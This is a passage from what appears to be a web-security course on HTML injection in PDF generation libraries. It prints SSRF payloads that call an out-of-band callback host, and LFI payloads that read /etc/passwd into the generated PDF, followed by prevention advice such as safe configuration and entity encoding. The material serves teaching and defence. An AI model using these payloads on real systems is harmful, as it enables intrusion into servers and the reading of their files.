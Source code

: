 
```
PDF Generation Vulnerabilities
Determining the PDF Generation Library
Code: bash
$ exiftool invoice.pdf 
<SNIP>
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
<SNIP>
Server-Side Request Forgery (SSRF) Payloads
Code: html
<img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>
<link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2">
<iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>
Local File Inclusion (LFI) Payloads
Code: html
<script>
	x = new XMLHttpRequest();
	x.onload = function(){
		document.write(this.responseText)
	};
	x.open("GET", "file:///etc/passwd");
	x.send();
</script>

<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500">
<portal src="file:///etc/passwd" width="800" height="500">

<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```


Prevention of PDF Generation Vulnerabilities
After discussing different ways to exploit HTML injection vulnerabilities in PDF generation libraries, let us discuss ways to prevent these types of vulnerabilities.

Insecure Configurations
Many of the vulnerabilities we discussed in the previous sections result from the improper configuration of PDF generation libraries. There are many cases where the default settings of these libraries are insecure. While many of them have been discovered and fixed, we should not rely on the security of the default settings. Thus, reading the documentation, stepping through the configuration file, and configuring the PDF generation library according to our needs are all essential. For instance, many PDF generation libraries default the configuration to allow access to external resources. Setting this option to false effectively prevents SSRF vulnerabilities. In the DomPDf library, this option is called enable_remote.

In some libraries, there are other configuration options that enable the execution of JavaScript and even PHP code on the server. While using features like these might be helpful for the dynamic generation of PDF files, they are also extremely dangerous, as the injection of PHP code can lead to remote code execution (RCE). For example, the DomPDF library has a configuration option called isPhpEnabled that enables PHP code execution; this option should be disabled because it's a security risk.

Generally, most libraries provide security best practices that we should follow when using them. For instance, here are security best practices for DomPDF.

Prevention
All vulnerabilities discussed previously result from user-supplied HTML tags being used as input to the PDF generation library. A web application can prevent these vulnerabilities by disallowing HTML tags in the user input. This can be achieved by HTML-entity encoding the user input, for example, by using the htmlentities function in PHP. htmlentities will convert all applicable characters to HTML entities, as in < becoming &lt; and > becoming &gt;, making it impossible to inject any HTML tags, therefore preventing security issues.

However, in many cases, this mitigation might be overly restrictive as it may be desired for the user to be able to inject certain style elements, such as bold or italic text, or resources, such as images. In that case, the user must be able to insert HTML tags into the PDF generation input. We can mitigate the vulnerabilities we discussed by configuring the PDF generation library options properly by taking into consideration security all security problems. At the very least, we need to ensure the following settings are properly configured:

JavaScript code should not be executed under any circumstances
Access to local files should be disallowed
Access to external resources should be disallowed or limited if it is required
In many cases, the HTML code relies on external resources such as images and stylesheets. If they are part of the template, the web application should fetch these resources in advance and store them locally. We can then edit the HTML elements to reference the local copy of these resources such that no external resources are loaded. This allows us to set strict firewall rules that prevent all outgoing requests by the web server running the web application. This will prevent SSRF vulnerabilities entirely. However, if users need to be able to load external resources, it is recommended to implement a whitelist approach of external endpoints that resources can be loaded from. This prevents the exploitation of SSRF vulnerabilities by blocking access to the internal network.
